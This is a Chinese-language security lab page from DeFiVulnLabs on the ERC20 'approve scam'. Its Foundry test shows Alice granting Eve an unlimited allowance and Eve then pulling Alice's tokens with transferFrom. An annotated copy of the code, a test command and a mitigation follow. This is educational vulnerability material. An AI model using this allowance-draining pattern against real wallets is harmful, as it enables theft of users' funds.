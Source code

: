 # 授权骗局  
[ApproveScam.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/ApproveScam.sol)  
**名称：**  权限过大的授权漏洞  
**描述：**  
该漏洞与ERC20代币的授权流程相关。  
在这种情况下，Alice授予Eve可以从自己的账户转移任意数量（type.(uint256).max）的代币的权限。  
随后，Eve利用此权限将1000个代币从Alice的账户转入自己账户。   

目前大多数骗局都使用approve或setApprovalForAll来骗取你的transfer权限。一定要特别小心这类骗局。  

**解决方法：**  
用户应仅授权当前交易所需的代币数量。  


**合约：**  
```
contract ContractTest is Test {
    ERC20 ERC20Contract;
    address alice = vm.addr(1);
    address eve = vm.addr(2);

    function testApproveScam() public {
        ERC20Contract = new ERC20();
        ERC20Contract.mint(1000);
        ERC20Contract.transfer(address(alice), 1000);

        vm.prank(alice);
        // 向未知网站/地址授权无限量代币时要小心。
        // 如果您确定它来自非法网站，请不要授权。
        // Alice向Eve授权。
        ERC20Contract.approve(address(eve), type(uint256).max);

        console.log(
            "Before exploiting, Balance of Eve:",
            ERC20Contract.balanceOf(eve)
        );
        console.log(
            "Due to Alice granted transfer permission to Eve, now Eve can move funds from Alice"
        );
        vm.prank(eve);
        // 现在，Eve可以从Alice那里转移资金
        ERC20Contract.transferFrom(address(alice), address(eve), 1000);
        console.log(
            "After exploiting, Balance of Eve:",
            ERC20Contract.balanceOf(eve)
        );
        console.log("Exploit completed");
    }

    receive() external payable {}
}
```  
**如何测试：**  
forge test --contracts src/test/ApproveScam.sol -vvvv  
```
// 一个使用ERC20代币测试授权漏洞的函数
function testApproveScam() public {
    // 创建一个新的ERC20合约实例
    ERC20Contract = new ERC20();

    // 合约铸造1000个新代币，现在合约余额新增了1000
    ERC20Contract.mint(1000);

    // 向Alice转账1000个代币
    ERC20Contract.transfer(address(alice), 1000);

    // 设置alice为approve()的调用者
    vm.prank(alice);

    // Alice授权Eve使用她的任意数量的代币。这是一个安全风险。
    ERC20Contract.approve(address(eve), type(uint256).max);

    // 记录漏洞攻击前Eve的余额
    console.log(
        "Before exploiting, Balance of Eve:",
        ERC20Contract.balanceOf(eve)
    );

    // 记录警告
    console.log(
        "Due to Alice granted transfer permission to Eve, now Eve can move funds from Alice"
    );

    // 设置Eve设置alice为transferFrom()的调用者
    vm.prank(eve);

    // Eve将Alice的1000个代币转移给自己
    ERC20Contract.transferFrom(address(alice), address(eve), 1000);

    // 记录漏洞攻击后Eve的余额
    console.log(
        "After exploiting, Balance of Eve:",
        ERC20Contract.balanceOf(eve)
    );

    // 记录“漏洞完成”。
    console.log("Exploit completed");
}
```
**红框：** 由于Alice给Eve授权了，所以Eve转移了Alice的资金。 
![image](https://web3sec.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F12373b11-e2f8-4102-a483-81694a89fc20%2FUntitled.png?table=block&id=3f9b98bb-6152-4571-a20a-a0c4e2304b76&spaceId=369b5001-5511-4fe6-a099-48af1d841f20&width=2000&userId=&cache=v2)

